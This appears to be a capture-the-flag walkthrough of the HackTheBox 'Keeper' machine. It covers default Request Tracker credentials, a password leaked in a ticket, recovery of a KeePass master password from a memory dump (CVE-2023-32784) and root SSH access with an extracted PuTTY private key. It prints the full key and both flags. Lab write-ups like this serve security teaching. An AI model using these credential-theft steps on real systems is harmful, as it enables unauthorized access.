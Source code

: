 ```yaml
---
layout: post
title:  "Keeper - HTB Walkthrough"
date:   2024-02-10 21:39:54 +0530
---
```


## Introduction 

Easy level HackTheBox platform lab machine running Linux OS, containing a standard password, password transmission using an open communication channel and its untimely change, exploiting a vulnerability in Keepass.

## Service Overview

The machine is assigned IP address 10.10.11.227, let's scan the ports with Nmap:

```sh
$ nmap -sV -sC -Pn -p1-65535 -oN 10.10.11.227 10.10.11.227
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 35:39:d4:39:40:4b:1f:61:86:dd:7c:37:bb:4b:98:9e (ECDSA)
|_  256 1a:e9:72:be:8b:b1:05:d5:ef:fe:dd:80:d8:ef:c0:66 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Web Service

On port 80, we are immediately pointed to two domain names. We need to add **keeper.htb** and **tickets.keeper.htb** to **/etc/hosts:**

``` sh
10.10.11.227 keeper.htb tickets.keeper.htb
```

Request Tracker (RT 4.4.4.4+dfsg-2ubuntu1 (Debian)) is running on tickets.keeper.htb. After trying some password combinations without success, we finally get the `root:password` account.

The ticket reveals a problem with Keepass. Let's pay attention to the Danish usernames. In the user section http://tickets.keeper.htb/rt/Admin/Users/ we find the user `lnorgaard:Welcome2023!`.

```sh
27 	lnorgaard 	Lise Nørgaard 	lnorgaard@keeper.htb 	Enabled
Comments about this user 
New user. Initial password set to Welcome2023!

14 	root 	Enoch Root 	root@localhost 	Enabled
```

### User Flag

Use them to access SSH.

```sh
$ ssh lnorgaard@10.10.11.227
Welcome2023!
lnorgaard@keeper:~$ id
uid=1000(lnorgaard) gid=1000(lnorgaard) groups=1000(lnorgaard)
lnorgaard@keeper:~$ ls
KeePassDumpFull.dmp RT30000.zip passcodes.kdbx user.txt
lnorgaard@keeper:~$ cat user.txt
faa16f84c4bd32e64845c9651522850b
lnorgaard@keeper:~$
```

## Privilege Escalation

In the user directory **/home/lnorgaard** we see the file **RT30000.zip**. In the Windows application crash ticket it was written that the memory dump was removed from the ticket for security reasons and placed in the home directory.

Let's download this file for local research:

```sh
$ scp lnorgaard@10.10.11.227:~/RT30000.zip .
lnorgaard@10.10.11.227's password: Welcome2023!
Inside the archive is a file with memory dump and Keepass base:

$ unzip RT30000.zip
Archive:  RT30000.zip
  inflating: KeePassDumpFull.dmp

 extracting: passcodes.kdbx

$ file passcodes.kdbx
passcodes.kdbx: Keepass password database 2.x KDBX

$ file KeePassDumpFull.dmp
KeePassDumpFull.dmp: Mini DuMP crash report, 16 streams, Fri May 19 13:46:21 2023, 0x1806 type
```


It looks like we're facing CVE-2023-32784. We can find almost the entire password from the memory dump.

```sh
$ git clone https://github.com/CMEPW/keepass-dump-masterkey
$ cd /opt/keepass-dump-masterkey
$ python3 poc.py /root/KeePassDumpFull.dmp
2023-09-08 17:50:46,382 [.] [main] Opened /root/KeePassDumpFull.dmp
Possible password: ●,dgr●d med fl●de
Possible password: ●ldgr●d med fl●de
Possible password: ●`dgr●d med fl●de
Possible password: ●-dgr●d med fl●de
Possible password: ●'dgr●d med fl●de
Possible password: ●]dgr●d med fl●de
Possible password: ●Adgr●d med fl●de
Possible password: ●Idgr●d med fl●de
Possible password: ●:dgr●d med fl●de
Possible password: ●=dgr●d med fl●de
Possible password: ●_dgr●d med fl●de
Possible password: ●cdgr●d med fl●de
Possible password: ●Mdgr●d med fl●de
```


It looks like a passphrase, so we try a google search for med flode, given that the users are Danish. Apply the lowercase function to the passphrase and get rødgrød med fløde. Use this password to open passcodex.kdbx database.

In the Network category, find the Putty private key:

```sh
PuTTY-User-Key-File-3: ssh-rsa
Encryption: none
Comment: rsa-key-20230519
Public-Lines: 6
AAAAB3NzaC1yc2EAAAADAQABAAABAQCnVqse/hMswGBRQsPsC/EwyxJvc8Wpul/D
8riCZV30ZbfEF09z0PNUn4DisesKB4x1KtqH0l8vPtRRiEzsBbn+mCpBLHBQ+81T
EHTc3ChyRYxk899PKSSqKDxUTZeFJ4FBAXqIxoJdpLHIMvh7ZyJNAy34lfcFC+LM
Cj/c6tQa2IaFfqcVJ+2bnR6UrUVRB4thmJca29JAq2p9BkdDGsiH8F8eanIBA1Tu
FVbUt2CenSUPDUAw7wIL56qC28w6q/qhm2LGOxXup6+LOjxGNNtA2zJ38P1FTfZQ
LxFVTWUKT8u8junnLk0kfnM4+bJ8g7MXLqbrtsgr5ywF6Ccxs0Et
Private-Lines: 14
AAABAQCB0dgBvETt8/UFNdG/X2hnXTPZKSzQxxkicDw6VR+1ye/t/dOS2yjbnr6j
oDni1wZdo7hTpJ5ZjdmzwxVCChNIc45cb3hXK3IYHe07psTuGgyYCSZWSGn8ZCih
kmyZTZOV9eq1D6P1uB6AXSKuwc03h97zOoyf6p+xgcYXwkp44/otK4ScF2hEputY
f7n24kvL0WlBQThsiLkKcz3/Cz7BdCkn+Lvf8iyA6VF0p14cFTM9Lsd7t/plLJzT
VkCew1DZuYnYOGQxHYW6WQ4V6rCwpsMSMLD450XJ4zfGLN8aw5KO1/TccbTgWivz
UXjcCAviPpmSXB19UG8JlTpgORyhAAAAgQD2kfhSA+/ASrc04ZIVagCge1Qq8iWs
OxG8eoCMW8DhhbvL6YKAfEvj3xeahXexlVwUOcDXO7Ti0QSV2sUw7E71cvl/ExGz
in6qyp3R4yAaV7PiMtLTgBkqs4AA3rcJZpJb01AZB8TBK91QIZGOswi3/uYrIZ1r
SsGN1FbK/meH9QAAAIEArbz8aWansqPtE+6Ye8Nq3G2R1PYhp5yXpxiE89L87NIV
09ygQ7Aec+C24TOykiwyPaOBlmMe+Nyaxss/gc7o9TnHNPFJ5iRyiXagT4E2WEEa
xHhv1PDdSrE8tB9V8ox1kxBrxAvYIZgceHRFrwPrF823PeNWLC2BNwEId0G76VkA
AACAVWJoksugJOovtA27Bamd7NRPvIa4dsMaQeXckVh19/TF8oZMDuJoiGyq6faD
AF9Z7Oehlo1Qt7oqGr8cVLbOT8aLqqbcax9nSKE67n7I5zrfoGynLzYkd3cETnGy
NNkjMjrocfmxfkvuJ7smEFMg7ZywW7CBWKGozgz67tKz9Is=
Private-MAC: b0a0fd2edf4f0e557200121aa673732c9e76750739db05adc3ab65ec34c55cb0
```

**Convert with puttygen (conversions => Export OpenSSH key):**

```sh
$ wget https://the.earth.li/~sgtatham/putty/0.76/putty-0.76.tar.gz
$ tar -xvf putty-0.76.tar.gz
$ cd putty-0.76/
$ ./configure
$ make
$ sudo cp puttygen /usr/bin/

$ putty-0.76/puttygen ssh-rsa.ppk -O private-openssh -o id_rsa
```


Let's connect with this key as root and get root flag:


```sh
$ ssh -i id_rsa root@10.10.11.227
root@keeper:~# id
uid=0(root) gid=0(root) groups=0(root)
root@keeper:~# ls
RT30000.zip  SQL  root.txt
root@keeper:~# cat root.txt
19ad20c7b763f30208fbb19e30eb7634
```